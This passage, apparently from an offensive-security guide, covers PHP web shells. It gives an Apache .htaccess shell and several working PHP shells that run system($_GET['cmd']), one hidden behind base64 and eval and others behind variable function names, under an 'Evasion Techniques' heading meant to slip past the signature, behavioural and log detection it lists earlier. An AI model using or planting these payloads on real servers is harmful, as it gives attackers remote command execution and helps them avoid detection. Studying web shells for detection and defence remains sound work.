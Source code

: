 #### .htaccess Shells

**Apache .htaccess Shell:**
```apache
AddType application/x-httpd-php .htaccess
# <?php system($_GET['cmd']); ?>
```

## Detection and Evasion

### Common Detection Methods

**Signature-Based Detection:**
- Known web shell signatures in files
- Suspicious function calls (system, exec, eval)
- Common web shell strings and patterns
- File upload monitoring

**Behavioral Detection:**
- Unusual command execution patterns
- Abnormal file access behaviors
- Suspicious network connections
- Process creation monitoring

**Log Analysis:**
- Web server access logs
- System command execution logs
- File modification timestamps
- Network connection logs

### Evasion Techniques

#### Code Obfuscation

**PHP Obfuscation:**
```php
<?php
$a = 'system';
$b = $_GET['cmd'];
$a($b);
?>

// Or using base64
<?php
eval(base64_decode('c3lzdGVtKCRfR0VUWydjbWQnXSk7'));
?>
```

**Variable Function Calls:**
```php
<?php
$functions = array('system', 'exec', 'shell_exec');
$func = $functions[0];
$func($_GET['cmd']);
?>
```
